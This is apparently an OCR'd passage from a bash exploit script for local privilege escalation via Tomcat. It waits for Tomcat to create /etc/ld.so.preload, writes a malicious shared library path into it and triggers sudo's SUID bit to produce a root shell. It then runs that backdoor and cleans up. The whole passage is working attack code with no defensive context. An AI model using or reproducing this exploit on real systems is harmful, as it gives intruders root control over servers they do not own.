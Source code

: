     # Wait for Tomcat to re-open the logs
    echo -ne "\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart..."
    echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)
     "
    while :; do 
        sleep 0.1
        if [ -f /etc/ld.so.preload ]; then
            echo $PRIVESCLIB > /etc/ld.so.preload
            break;
        fi
    done

    # /etc/ld.so.preload file should be owned by tomcat user at this point
    # Inject the privesc.so shared library to escalate privileges
    echo $PRIVESCLIB > /etc/ld.so.preload
    echo -e "\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`"
    echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
    echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"

    # Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
    echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
    sudo --help 2>/dev/null >/dev/null

    # Check for the rootshell
    ls -l $BACKDOORPATH | grep rws | grep -q root
    if [ $? -eq 0 ]; then 
        echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
        echo -e "\n\033[94mPlease tell me you're seeing this too ;)
      \033[0m"
    else
        echo -e "\n[!] Failed to get root"
        cleanexit 2
    fi

    # Execute the rootshell
    echo -e "\n[+] Executing the rootshell $BACKDOORPATH now! \n"
    $BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
    $BACKDOORPATH -p
